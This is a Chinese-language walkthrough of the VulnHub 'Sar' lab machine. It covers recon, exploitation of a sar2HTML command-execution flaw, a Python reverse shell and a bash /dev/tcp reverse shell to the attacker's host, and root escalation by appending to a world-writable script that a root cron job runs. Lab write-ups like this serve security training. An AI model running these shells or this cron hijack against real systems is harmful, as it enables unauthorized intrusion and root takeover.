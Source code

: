 ## 靶机信息
级别:容易
下载地址:[https://download.vulnhub.com/sar/sar.zip](https://download.vulnhub.com/sar/sar.zip)

## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.145

sudo nmap --min-rate 10000 -sT -p- 192.168.1.145 -oA tcp_scan/ports 
//Ports:
PORT   STATE SERVICE                                                          │
80/tcp open  http   

sudo nmap -sT -p 80 -sV -sC -O 192.168.1.145
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:86:0D:48 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
```
## Web
![[Pasted image 20231009101139.png]]
### 目录爆破
```shell
gobuster dir -u http://192.168.1.145/ -w /usr/share/wordlists/dirb/common.txt

/phpinfo.php          (Status: 200) [Size: 95401]
/robots.txt           (Status: 200) [Size: 9]
```
robots.txt ：
![[Pasted image 20231009101345.png]]
访问sar2HTML
![[Pasted image 20231009101538.png]]

```shell
searchsploit sar2HTML //发现远程命令执行漏洞
```
![[Pasted image 20231009102720.png]]

![[Pasted image 20231009102739.png]]

## 反弹shell
```shell
dpkg -l | grep python
//看到靶机有安装python
export RHOST="192.168.1.136";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
//执行python3连接到kali
```
## 提权

```shell
find / -name "user.txt" 2>/dev/null
//得到user flag:427a7e47deb4a8649c7cab38df232b52

cat /etc/crontab
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
ls -al finally.sh
// -rwxr-xr-x 1 root root 22 Oct 20  2019 finally.sh

cat finally.sh
//
#!/bin/sh

./write.sh

cat write.sh
//
#!/bin/sh

touch /tmp/gateway

ls -al write.sh
-rwxrwxrwx 1 www-data www-data 30 Oct 21  2019 write.sh //www-data 用户对write.sh有rwx权限

echo " /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.136/4444 0>&1' " >> write.sh

成功提权
root flag:66f93d6b2ca96c9ad78a8a9ba0008e99
```

